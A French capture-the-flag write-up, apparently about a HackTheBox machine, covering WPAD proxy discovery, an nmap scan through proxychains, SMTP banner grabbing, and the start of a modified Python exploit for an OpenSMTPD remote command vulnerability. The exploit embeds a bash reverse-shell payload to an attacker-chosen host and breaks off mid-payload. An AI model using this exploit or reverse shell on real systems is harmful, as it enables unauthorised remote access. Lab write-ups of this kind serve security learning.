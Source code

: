 Nous avons un serveur Web sur la machine 10.197.243.31 ayant comme nom de domaine wpad.realcorp.htb :

![wpad_403](https://i.imgur.com/xOyNtTp.png)

Cependant nous avons pas les permissions d'accéder à l'index du serveur Web.

Après m'être renseigné sur [wpad](http://eole.ac-dijon.fr/documentations/2.4/completes/HTML/ModuleAmon/co/13-wpad.html), j'ai compris qu'il existait un fichier PAC nommé `wpad.dat` qui contient les paramètres du proxy :

![wpad_dat](https://i.imgur.com/ysntqIk.png)

À l'intérieur de ce fichier, nous avons une nouvelle IP avec une partie réseau différente.

Cependant cette machine ne répond pas. Nous supposons que ceci est un indice pour trouver une nouvelle machine... Scannons une plage d'IP :

```bash
❯ proxychains4 -f /etc/proxychains4.conf nmap 10.241.251.0/24 -vvv -sT -Pn

<...>
[proxychains] Dynamic chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
Discovered open port 25/tcp on 10.241.251.113
<...>
Nmap scan report for 10.241.251.113
PORT   STATE SERVICE REASON
25/tcp open  smtp    syn-ack
```

Nous avons trouvé un serveur SMTP sur la machine 10.241.251.113.

Avec du **banner grabbing** nous pouvous identifier la version du service en marche sur le serveur distant rapidement :

```bash
❯ proxychains4 -f /etc/proxychains4.conf nc 10.241.251.113 25

[proxychains] Dynamic chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
220 smtp.realcorp.htb ESMTP OpenSMTPD
```

Après quelques recherches, j'ai trouvé une [vulnérabilité OpenSMTPD](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/). 😃

# Exploitation OpenSMTPD (Source code review)

Si la partie locale d'une adresse mail n'est pas valide et ne comporte pas de nom de domaine, un attaquant peut transmettre un reverse shell et ignorer les contrôles **MAILADDR_ALLOWED** et **MAILADDR_ESCAPE** grâce à cette faille.

Nous allons modifier le code afin d'exécuter un reverse shell :

```py
import socket, time
import sys

HOST = input('RHOST : ')
PORT = int(input('RPORT : '))
LHOST = input('LHOST : ')
LPORT = int(input('LPORT : '))
pld_rev_shell = 'bash -c "exec bash -i &> /dev/tcp/{}/{} <&1"'.format(LHOST, LPORT)
s = None

payload = b"""\r\n
#0\r\n
```